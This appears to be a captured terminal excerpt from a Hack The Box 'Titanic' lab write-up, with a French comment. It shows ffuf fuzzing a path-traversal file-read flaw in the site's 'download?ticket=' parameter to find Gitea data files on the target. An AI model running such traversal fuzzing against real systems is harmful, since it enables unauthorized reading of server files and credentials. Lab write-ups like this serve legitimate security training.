 ```bash
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://titanic.htb/download?ticket=/home/developer/gitea/data/FUZZ
 :: Wordlist         : FUZZ: /home/kali/htb/Titanic/gitea_wordlist.txt
 :: Header           : Connection: keep-alive
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Priority: u=0, i
 :: Header           : Host: titanic.htb
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 64
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

gitea                   [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 139ms]
:: Progress: [2876/2876] :: Job [1/1] :: 404 req/sec :: Duration: [0:00:06] :: Errors: 0 ::

-----------on rajoute "/gitea/FUZZ" dans le fichier .req et on recommence la recherche----------------

┌──(kali㉿kali)-[~/htb/Titanic]
└─$ ffuf -request download.req -request-proto http -t 64 -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Header           : Host: titanic.htb
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: keep-alive
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Priority: u=0, i
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```